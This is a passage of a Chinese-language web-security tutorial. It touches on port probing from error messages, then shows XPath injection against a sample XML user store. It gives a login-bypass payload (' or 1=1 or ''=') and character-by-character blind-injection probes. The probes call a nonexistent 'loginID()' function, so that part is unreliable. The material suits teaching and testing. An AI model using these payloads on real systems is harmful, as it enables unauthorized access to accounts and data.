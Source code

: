 ![1544461697(1)]({{site.url}}/images/1544461697(1).jpg)

通过返回的`Connection refused`可以知道该81端口是closed的，返回`HTTP REQUEST failed` 是开启的。

### Xpath 注入

xml可以做数据传输，也可以将其当作数据库存储数据，有些类似于SQL注入，只是使用的函数不同。

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<users> 

<user> 
<firstname>Ben</firstname>
<lastname>Elmore</lastname> 
<loginID>abc</loginID> 
<password>test123</password> 
</user> 

<user> 
<firstname>Shlomy</firstname>
<lastname>Gantz</lastname>
<loginID>xyz</loginID> 
<password>123test</password> 
</user> 
```

其查询语句，也类似于sql语句

```xml
//users/user[loginID/text()=’abc’ and password/text()=’test123’]
```

所以相同的，我们可以用类似sql注入的方式来闭合引号例如：

```
loginID=' or 1=1 or ''='
password=' or 1=1 or ''='
```

可以得到

```xml
//users/user[loginID/text()='' or 1=1 or ''='' and password/text()='' or 1=1 or ''='']
```

那么查询语句将返回 true

### Xpath盲注

方法类似于Sql注入，只是函数可能使用不同
提取当前节点的父节点的名称：

```
' or substring(loginID(parent::*[position()=1]),1,1)='a
' or substring(loginID(parent::*[position()=1]),1,1)='b
' or substring(loginID(parent::*[position()=1]),1,1)='c
....
' or substring(loginID(parent::*[position()=1]),2,1)='a
' or substring(loginID(parent::*[position()=1]),2,1)='b
....
```
